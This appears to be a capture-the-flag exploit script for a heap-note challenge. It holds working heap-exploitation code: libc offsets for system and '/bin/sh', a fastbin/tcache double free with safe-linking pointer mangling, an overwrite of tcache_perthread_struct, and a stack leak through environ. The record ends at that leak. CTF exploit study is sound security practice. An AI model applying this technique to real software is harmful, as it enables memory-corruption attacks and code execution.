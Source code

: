 ```python
system = base + 0x50d70
binsh = base + 0x1d8678
environ = base + 0x222200
rdi = base + 0x001bbea1

if args.R:
    system = base + 0x50d60
    binsh = base + 0x1d8698
    environ = base + 0x0000000000221200
    rdi =  base+ 0x001bc021

# prepare fake fastbin and victim chunks to overwrite tcache_perthread_struct
al(b'a'*0xe0+p64((heap+0x12060)>>12)) # fake fastbin chunk to chain
al(b'a'*0xe0+p64(0xbeef0)) # victim
dl(4)
dl(4)

# stash 7chunks to tcache
for i in range(7):
    al(b'a'*0x60)
for i in range(6*30):
    al('', -1)

al(b'b'*0x60)
for i in range(7):
    dl(4)

# push 1 chunk to fastbin
dl(5)

# pop 1 tcache
al(b'b'*0x60)

# re-free the chunk in fastbin
dl(4)

# place fake fd
al(p64((heap+0x12050)^((heap+0x134d0)>>12)), 0x60)
for i in range(6):
    al(chr(0x30+i).encode()*4, 0x60)

al(flat(0xdead, 0xbeef), 0x60)

# use overlapped chunk to edit fd of 0x100 sized chunk
payload = b''
payload += flat(0x11dead, 0x22beef)
payload += flat(0x33c0de, 0x101)
payload += flat((heap+0x80)^((heap+0x12080) >> 12))

al(payload, 0x60)

# overwrite tcache_perthread_struct
al(b'a'*0xf0)
payload = b''
payload += b'a'*0x10
payload += flat(environ, heap+0x90) # addresses we want to allocate
al(payload, 0xf0)

# leak stack address
al('', 0)
show(16)
r.recvuntil(b'data: ')
stack = u64(r.recvuntil(b'1. alloc', True). ljust(8, b'\x00'))
```